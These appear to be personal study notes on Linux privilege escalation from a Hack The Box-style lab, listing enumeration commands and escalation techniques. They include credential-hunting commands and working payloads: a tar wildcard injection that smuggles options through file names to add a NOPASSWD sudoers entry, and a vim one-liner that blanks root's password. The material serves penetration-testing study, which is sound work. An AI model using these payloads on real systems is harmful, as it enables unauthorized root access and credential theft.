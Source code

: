 # Introduction to Linux Privilege Escalation


when we audit a linux system we have to look for the OS version, the Kernel version, and running services

to have root processes

```sh
ps aux | grep root
```

also Installed Packages and Versions, Logged in users

try to ls home ...etc

look for ssh keys 

```sh
ls -l ~/.ssh
```

bash history 
try `sudo -l`

try to read /etc/passwd maybe we can find a hash 
See cron JOBs that's what i need to see.

```sh
ls -la /etc/cron.daily/
```
File Systems & Additional Drives wirh `lsblk`

Set uid and getgid and writable permission files 
```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```
for files 
```sh
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
## OS info 

```bash
cat /cat /etc/os-release
echo $PATH
env
uname -a
lscpu  # cpu version
cat /etc/shells
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep htb-student # hidden files
find / -type d -name ".*" -ls 2>/dev/null # hidden directories
ls -l /tmp /var/tmp /dev/shm
```
## Linux Services & Internals Enumeration

check ip a and ip route 

cat /etc/hosts

check lastlogs

check this command w and history
check if there is any history file

```bash
find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null
```

check the crontab

    ls -la /etc/cron.daily/


good command t check for gtobin and installed packets 

```bash
for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d');do if grep -q "$i" installed_pkgs.list;then echo "Check GTFO for: $i";fi;done
```

look for configuration files 

```bash
find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null
```

find scripts 
```bash
find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
```

## Credential Hunting

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'

find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null

ls ~/.ssh

find / -type f -name "wp-config.php" -exec grep -H "DB_USER\|DB_PASSWORD" {} \; 2>/dev/null
```

## TAR abuse 

for example in tar command if we have a wild card used as root, or in a cron job example 

```bash
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

if we write this 

```bash
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

 --checkpoint=1 and --checkpoint-action=exec=sh root.sh is passed to tar as command-line options and the script if executed

 ## Special Permissions

 The Set User ID upon Execution (setuid) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The setuid bit appears as an s.

 ```bash
 find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```

The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them. These files can be enumerated using the following command

```bash
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

find capabilities :

```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

payload for vim capabilities for cap_dac_override+eip

```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```

## CronJobs

Cron jobs can also be set to run one time (such as on boot). They are typically used for administrative tasks such as running backups, cleaning up directories, etc. The crontab command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in /var/spool/cron for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry 0 */12 * * * /home/admin/backup.sh would run every 12 hours.

We can confirm that a cron job is running using pspy, a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning procfs.

find writable files 

```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

## LXC

LXC  or linux container is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them. 